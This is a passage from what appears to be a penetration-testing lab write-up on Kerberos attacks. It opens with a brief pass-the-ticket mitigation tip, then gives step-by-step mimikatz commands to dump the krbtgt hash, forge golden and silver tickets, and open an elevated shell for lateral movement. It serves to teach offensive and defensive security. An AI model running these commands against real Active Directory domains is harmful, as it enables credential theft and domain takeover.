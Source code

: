     Note that this is only a POC to understand how to pass the ticket and gain domain admin the way that you approach passing the ticket may be different based on what kind of engagement you're in so do not take this as a definitive guide of how to run this attack.
    

# Pass the Ticket Mitigation

Let's talk blue team and how to mitigate these types of attacks.

- Don't let your domain admins log onto anything except the domain controller - This is something so simple however a lot of domain admins still log onto low-level computers leaving tickets around that we can use to attack and move laterally with.

# Dump the krbtgt hash

- Dump the krbtgt hash
    
    1.) `cd downloads && mimikatz.exe` - navigate to the directory mimikatz is in and run mimikatz
    
    2.) `privilege::debug` - ensure this outputs [privilege '20' ok]
    
    3.) `lsadump::lsa /inject /name:krbtgt` - This will dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.
    
    ![https://i.imgur.com/VOEsU4O.png](https://i.imgur.com/VOEsU4O.png)
    
- Create a Golden/Silver Ticket
    
    1.) `Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:` - This is the command for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.
    
    I'll show you a demo of creating a golden ticket it is up to you to create a silver ticket.
    
    ![https://i.imgur.com/rh06qDl.png](https://i.imgur.com/rh06qDl.png)
    
- Use the Golden/Silver Ticket to access other machines
    
    1.) `misc::cmd` - this will open a new elevated command prompt with the given ticket in mimikatz.
    
    ![https://i.imgur.com/6HnEnwi.png](https://i.imgur.com/6HnEnwi.png)
    
    2.) Access machines that you want, what you can access will depend on the privileges of the user that you decided to take the ticket from however if you took the ticket from krbtgt you have access to the ENTIRE network hence the name golden ticket; however, silver tickets only have access to those that the user has access to if it is a domain admin it can almost access the entire network however it is slightly less elevated from a golden ticket.
    
    ![https://i.imgur.com/BSh4rXy.png](https://i.imgur.com/BSh4rXy.png)
    

# Skeleton Key Overview
